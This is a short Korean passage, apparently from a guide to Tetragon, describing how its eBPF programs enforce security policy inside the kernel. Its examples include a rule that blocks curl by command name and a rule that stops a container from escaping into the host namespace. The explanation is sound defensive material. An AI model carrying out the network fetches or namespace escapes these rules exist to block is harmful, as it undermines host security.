- 커널 내 적용: 주목할 점은 이 정책 적용이 사용자 공간(user-space) 프로그램의 개입 없이 커널 내에서 직접 이루어진다는 것이다. Tetragon이 생성한 eBPF 프로그램이 모니터링과 적용(enforce)을 모두 자체적으로 수행할 수 있기 때문이다.
- 유사 규칙의 예시: 이와 유사한 규칙을 작성하여 다음과 같은 보안 정책을 적용할 수 있다.
  - 명령어 이름으로 이진 파일 실행을 차단하는 규칙 (예: curl 실행 방지)
  - 호스트 네임스페이스에 접근하도록 허용한 원래의 네임스페이스 탈출 자체를 방지하는 규칙
